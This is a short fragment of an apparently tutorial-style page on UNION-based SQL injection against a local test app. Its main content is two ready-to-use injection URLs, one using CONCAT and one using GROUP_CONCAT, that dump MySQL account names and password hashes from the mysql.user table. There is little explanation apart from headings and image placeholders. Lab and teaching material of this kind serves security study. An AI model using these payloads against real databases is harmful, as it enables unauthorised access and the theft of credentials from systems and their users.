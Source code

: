 ![enter image description here](img/img27_u17_png.jpg)

#### CONCAT：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1￼ 
```

![enter image description here](img/img28_u1_png.jpg)

#### GROUP_CONCAT

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,GROUP_CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1 
```

